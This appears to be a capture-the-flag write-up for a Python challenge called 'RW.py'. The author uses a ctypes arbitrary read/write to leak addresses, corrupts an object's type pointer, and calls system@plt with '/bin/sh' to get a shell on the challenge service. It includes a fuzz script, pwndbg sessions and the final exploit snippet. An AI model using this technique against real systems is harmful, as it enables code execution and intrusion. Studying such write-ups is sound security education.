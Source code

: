 ##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we hvae to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find innteresting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see
![gdb_output](./hmm.png)


And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `\*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the address thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` has points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!





```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
